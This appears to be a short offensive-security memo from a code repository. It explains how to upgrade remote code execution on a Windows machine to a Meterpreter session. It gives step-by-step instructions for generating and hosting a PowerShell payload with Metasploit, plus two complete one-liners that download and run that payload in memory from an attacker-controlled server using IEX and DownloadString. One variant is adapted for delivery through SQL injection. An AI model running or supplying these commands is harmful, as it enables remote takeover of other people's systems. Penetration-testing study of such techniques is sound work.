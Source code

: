  RCE to Meterpreter session via Powershell<br/>================================================================================<br/><br/>If in a position where a RCE was obtained on a Windows machine and in need to <br/>upgrade to a better shell, than this memo can help.<br/><br/>tl;dr; The ruby script generates a powershell script which will be downloaded <br/>and executed in target box's memory via the use of IEX Powershell command.<br/><br/>It is recommended to run the ruby script in Kali as it uses Metasploit. <br/>Originally this script was created to generate this same technique and payload <br/>for the RubberDucky. The same script it is now recycled for the same goal but <br/>delivered differently.<br/><br/>Steps:<br/> - run the ruby script in kali and follow the steps<br/> - open the created powershell script and copy the line from "powershell -nop" onwards<br/> - save the copied text in a new powershell script (save it as .ps1)<br/> - make the new ps1 script available with SimpleHTTPServer or the like<br/> - in Kali, start a exploit/multi/handler and use the same config defined in step 1<br/> - on the target machine execute the following powershell command(define the IP and port)<br/><br/><br/>`powershell IEX (New-Object Net.WebClient).DownloadString('http://server:port/pwned.ps1');`<br/><br/><br/>The IEX command is a bit picky and it really likes the single quotes. In the past I <br/>had to inject the command via a SQL injection and I couldn't escape or reuse the <br/>sigle quote. The hack that worked for me is the following command:<br/><br/><br/><br/>`powershell Set-Variable -Name "urlz" -Value “http://server:port/pwned.ps1" ;IEX (New-Object Net.WebClient).DownloadString($urlz);`<br/><br/><br/><br/>Good luck and Have Fun!!!<br/><br/><br/><br/>